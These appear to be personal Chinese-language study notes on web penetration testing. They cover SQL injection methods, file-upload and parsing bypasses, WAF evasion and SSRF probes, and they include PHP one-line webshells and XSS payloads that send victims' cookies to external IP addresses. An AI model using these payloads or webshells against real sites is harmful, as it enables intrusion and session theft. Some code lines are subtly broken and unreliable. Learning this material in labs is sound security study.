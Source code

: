 域名与IP地址
	一个IP地址可以有多个域名，一个域名只能指向一个IP地址。
	如：
	有一个目录存放了3个不同的项目
		list（192.168.0.6:8080）
			博客网站
				1.html
			论坛网站
				22.html
			教务网站
				333.html
		上述3个网站都在一个同一台（电脑/服务器）部署，我们可以为这3个项目分别设置域名www.bolg.com、www.luntan.com、www.jiaowu.cn。
		若使用扫描网站目录工具扫描域名www.bolg.com，只可以扫描到博客网站这个目录下的内容；
		如果扫描IP地址193.168.0.6，就可以扫描到list目录下的内容，即可以获取到其他项目的源码内容
		总之，扫描IP可以比扫描域名的目录范围大一级。
	
	
常见网络站点类型：
	1.目录型站点
	2.端口型站点
	3.子域名型站点
	4.类似域名站点( xxx.com; xxx.cn; xxx.top; xxx.org )或前缀或后缀不同
	5.旁注，C段站点； 旁注：同服务器不同站点	C段：不同服务器不同站点但是同网段
	6.软件搭建习惯特征站点(中间件漏洞等)

2023.10.7
	Layer 查子域名软件4.2
	补天  src漏洞挖掘  挖到了有钱
	ipip  可以选择地区ping，尝试绕过cdn,建议在南非这种贫困地区ping更容易获取最终IP地址，因为很少有公司会在这些地方专门建一个cdn结点
	crt.sh 也可查子域名 证书

2023.10.8
	SQL注入
	flask的ORM模型可以避免sql注入，因为它在代码中不用写SQL语句；
	弱类型语言会自动推导传入数据的类型，如传入8是int，传入8'是string；而对于强类型语言，如果试图把一个字符串传入int型变量，则会抛出异常程序无法继续执行
；所以强类型语言很少存在数字型注入漏洞；
	
2023.10.9 MySql注入
	判断注入：
		老办法：and 1=1 --+页面正常	and 1=2--+ 错误
	now：
		1.猜字段数order by 1、order by 2、order by 3......猜到页面错误（此步骤判断注入）  order by是根据字段排序
		2.union select 1,2,3 (直到字段数) 用数字容易出现类型不兼容的异常，数字可换成null替代
		3.用union查询敏感信息(类似web安全书P73)
	信息收集：
		数据库版本：version()
		数据库名字：database()
		数据库用户：user()
		操作系统：@@version_compile_os
	数据注入：
		同数据库(MySql)-->	高版本（5.0以上）可用数据库表视图有据查询，如information_schema.tables;  (https://zhuanlan.zhihu.com/p/438772250)
							低版本 暴力查询或结合读取查询
	group_concat(a),可以把a字段的所有值合并起来，如a字段下有值'username'、'password'、'45'、'789'，则输出username，password，45，789
     
2023.10.11 MySql注入
	文件读取操作
		load_file('xxxxxxx')	读取函数	
		into outfile 或 into dumpfile 写入函数
		

	把注入语句中的'xxxxxxx'字符串换成16进制可以绕过某些简单的SQL注入过滤器和php魔法引号；
	MySql的关键字不区分大小写，可以利用这个绕过简单的关键词过滤，如select可以改成SelecT；大多数DBMS（数据库管理系统）对于SQL语句的关键字和标识符是不区分大小写的

2023.10.17 
	搜索注入
		select * from user where name like '%xiaodi%'；用到SQL的模糊查询，%是通配符

2023.11.08
	宽字节注入 %DF' ->到php代码转义 -> %DF\' ->url就变成 %DF%5C%27 倘若网站是GBK数据库也用GBK，%DF%5C就是生僻字衰  ->到数据库就变成  衰' 此时引号成功注入sql语句中
	SQL盲注
		报错回显 https://bbs.huaweicloud.com/blogs/392084
		延时盲注
		布尔盲注	指页面只返回正确和错误两种结果，不回显任何信息；这时候可以注入and xxxx命令猜数据库的敏感信息，猜对页面则正常显示返回正确，猜错了则返回错误页面；如先猜数据库名字的长度？猜数据库名字第一位是？第二位是？
		
2023.11.18
	二次注入：
	目标：更改xiaomi的密码为88888888
	注册页面注册 账号名为xiaomi'# 密码为1231321（随便填）
	接着进入账号xiaomi'# 更改密码为88888888 此时后台的sql语句就变成 update password='88888888' where username='xiaomi' #' and password='1231321'
	此时，橙色的语句就被注释掉了，即该语句把xiaomi的密码改了而xiaomi'#的密码不变
	

	堆叠注入：
	就是利用;号写多个sql语句，有局限性，有些数据库支持执行多个语句，有些不行
	
	执行注释内的语句：
	select version（）,/*!50554 now（）,*/user（）；若版本大于50554则会执行
	select version（）,/*!now（）,*/user（）；如果省略版本号，则都会执行

---------------------------
	xss获取cookie，http://127.0.0.1/DVWA/vulnerabilities/xss_r/?name=<script src="http://127.0.0.1/DVWA/vulnerabilities/xss_r/hacker.js" /></script>
	利用xss漏洞，受害者点击链接就会访问目标网站，并且会加载<script src="http://127.0.0.1/DVWA/vulnerabilities/xss_r/hacker.js" /></script>这段代码，此时hacker.js就可以获取受害者在目标网站的cookie，并将cookie发送到我的网站。

数据通信网络基础

	网络通信：终端设备之间通过计算机网络进行的通信
	应用层(Data)
		http 	80	TCP
		
		Telnet 	23	TCP	远程登录协议，提供远程管理服务
		
		FTP		20、21	TCP	文件传输协议，提供互联网文件资源共享服务
		
		SMTP	25	TCP	简单邮件传输协议
		
		TFTP	69	UDP	简单文件传输协议，简单的文件传输
		
	传输层(Segment 段) 段里面会有源端口和目的端口的信息
		TCP	面向连接、可靠的传输
		三次握手、四次挥手；Seq：发送方发送数据包中第一个字节的序列号，Ack：接受方期望接收的数据包第一个字节的序列号，一般=Seq+数据长度
		在TCP三次握手建立连接时，双方都会通过Window字段告诉对方本端最大能够接受的字节数（也就是缓冲区大小），如win=3
		
		UDP	无连接

文件上传
	.htaccess文件  
	文件内容：<FilesMatch "shana">
				SetHandler application/x-httpd-php
				</FilesMatch>
	如果文件夹下面有这样一个xxx.htaccess文件，那么该文件夹内的所有文件名为shana的文件都会被解析成php文件，如shana.png/shana.jpg/shana.txt
	如果文件包含漏洞不可用，就可以尝试上传类似这样的.htaccess文件。
	
	”1.php “、”1.php.“第一个，系统会强制把后面的空格去掉变成1.php，第二个，系统不允许这样命名，也会变成1.php。所以这两个可以尝试绕过代码的过滤。
	1.php::$DATA这样的命名方式。在Windows系统中，::$DATA是一种命名约定，用于指定文件流数据。这种命名方式会绕过一些简单的文件后缀名检测，因为上传文件的名称看起来仍然像是一个.php文件。但实际上，::$DATA部分被用于表示文件流数据。
	总的来说，这种技巧利用了Windows文件系统的特性和PHP的解析方式，绕过了一些基本的文件上传黑名单检测，使得攻击者可以上传并执行恶意PHP代码。
	
	抓包把文件名改成1.php/. 看似这成了文件夹的名字，实则还是会保存为1.php文件；这可绕过某些后缀名检测，1.php/.jpg 系统也会保存php文件而不是jpg，代码会以为后缀是.jpg，可绕过白名单检测

图片马制作
一句话木马：
<?php eval($_POST['cmd']); ?>//执行php代码
<?php exec($_POST['cmd']); ?>//执行命令


copy 1.png /b + shell.php /a webshell.jpg

copy: 这是一个用于复制文件的命令
/b: 这是 copy 命令的一个选项，表示以二进制模式进行复制。这个选项告诉 copy 命令不要将特殊字符解释为控制字符，而是直接复制它们。
/a: 这是 copy 命令的另一个选项，表示以文本模式进行复制。对于文本文件，这个选项告诉 copy 命令将文本文件作为 ASCII 文件处理。

iis6.0
文件夹
image/qq.jpg
image.asp/qq.jpg     qq.jpg就会被当做asp解析
文件
image.jpg
image.asp;.jpg或XXx.asp;xxx.jpg此文件会被当做asp执行
asp可以换做php如果换了php那么就当php执行

文件解析漏洞

apache-低版本

例：phpstudy(低版本、apache)
1.php.xxx会被当作php执行
解释:解析文件时识别后缀.xxx失败，则会向前解析，识别成.php 

上传参数名解析：明确哪些东西能修改？
Content-Disposition:一般可更改
name:表单参数值，不能更改
filename:文件名，可以更改
Content-Type:文件MIME,视情况更改

#常见绕过WAF方法：
数据溢出-防匹配(xxx...)
符号变异-防匹配(' ” ;)
数据截断-防匹配(%00；换行)  
在 URL 编码中，%00 表示 NULL 字符（ASCII 码为0）。NULL 字符通常用于表示字符串的结束，在某些情况下也可以用作字符串的分隔符。
重复数据-防匹配（参数多次）
本地fuzz大法测试 网上找fuzz字典

#文件上传安全修复方案
后端验证：采用服务端验证模式
后毁检测：基于黑名单，白名单过滤
MTME检测：基于上传自带类型检测
内容检测：文件头，完整性检测
自带函数过滤：参考upload1abs函数
自定义函数过滤：function check file（）{}
WA防护产品：宝塔，云盾，安全公司产品等

XSS跨站脚本Cross-Site Scripting
<script>document.write('<img src="http://192.168.5.52:8888?x='+document.cookie +'" width=0 height=0 >')</script >
<script>alert(document.cookie)</script>
<script>fetch('http://192.168.5.52:8888?x=' + document.cookie);</script>

CSRF与XSS的区别：CSRF是借用户的权限完成攻击，攻击者并没有拿到用户的权限，而XSS是直接盗取到了用户的权限，然后实施破坏。
XSS只能获取到有漏洞网站的受害者cookie，仅限于此网站
CSRF则可以诱导受害者在多个网站操作

<script>document.location = 'http://92.168.99.131/Pikachu-master/pkxss/xcookie/cookie.php?cookie=' + document.cookie;</script>

<script src='http://39.96.44.170/hack.js'></script>

XSS工具：beef、github_XSS-payload、XSStrike

HttpOnly
如果您在cookie中设置了HttpOnly属性，那么通过js脚本将无法读取到cookiet信息，这样能有效的防止SS攻击

进入后台两种方式：
1.获取coookie进入后台
2.直接账号密码登录

&#x4e2d;&#x56fd;中国
&#是html的转义序列，不是编码，payload用这个转义也是一种绕过方法

#XSS常规WAF绕过思路
标签语法替换
特殊符号干扰
提交方式更改
垃圾数据溢出
加密解密算法
结合其他漏洞绕过

CSRF（跨站请求伪造）

SSRF（服务器端请求伪造）
伪协议、各个协议调用探针：http,file,dict,ftp,gophers等

学习链接https://blog.csdn.net/unexpectedthing/article/details/121276653

漏洞攻击：端口扫描，指纹识别，漏洞利用，内网探针等
http://192.168.64.144/phpmyadmin/
file:///D:/www.txt
dict://192.168.64.144:3306/info
ftp://192.168.64.144:21

RCE指两个漏洞，代码及命令执行漏洞

<?php
eval($REQUEST[x])
?>
x是代码执行
<?php
eval(echo `$REQUEST[x]`)
?>
x是代码执行，仅限于Linux系统，Windows不支持反引号``

WTS-waf
+号替代空格可以绕过waf

文件包含
php包含函数会把被包含文件当作php脚本执行，所以会识别被包含文件中的php代码



